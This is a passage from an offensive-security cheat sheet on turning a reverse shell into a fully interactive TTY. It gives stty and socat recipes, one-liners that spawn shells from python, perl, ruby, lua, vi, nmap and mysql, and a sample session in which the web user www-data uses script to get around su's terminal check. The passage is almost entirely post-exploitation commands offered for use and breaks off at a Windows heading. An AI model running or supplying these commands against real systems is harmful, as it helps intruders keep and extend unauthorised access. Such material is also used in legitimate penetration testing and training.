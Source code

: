 ```
  ctrl+z
  echo $TERM && tput lines && tput cols

  # for bash
  stty raw -echo
  fg

  # for zsh
  stty raw -echo; fg

  reset
  export SHELL=bash
  export TERM=xterm-256color
  stty rows <num> columns <cols>
```

or use =socat= binary to get a fully tty reverse shell

```
  socat file:`tty`,raw,echo=0 tcp-listen:12345
```

Spawn a TTY shell from an interpreter

```
  /bin/sh -i
  python3 -c 'import pty; pty.spawn("/bin/sh")'
  python3 -c "__import__('pty').spawn('/bin/bash')"
  python3 -c "__import__('subprocess').call(['/bin/bash'])"
  perl -e 'exec "/bin/sh";'
  perl: exec "/bin/sh";
  perl -e 'print `/bin/bash`'
  ruby: exec "/bin/sh"
  lua: os.execute('/bin/sh')
```

- vi: `:!bash`
- vi: `:set shell=/bin/bash:shell`
- nmap: `!sh`
- mysql: `! bash`

Alternative TTY method

```
  www-data@debian:/dev/shm$ su - user
  su: must be run from a terminal

  www-data@debian:/dev/shm$ /usr/bin/script -qc /bin/bash /dev/null
  www-data@debian:/dev/shm$ su - user
  Password: P4ssW0rD

  user@debian:~$
```

## Fully interactive reverse shell on Windows
   :PROPERTIES:
   :CUSTOM_ID: fully-interactive-reverse-shell-on-windows
   :END:
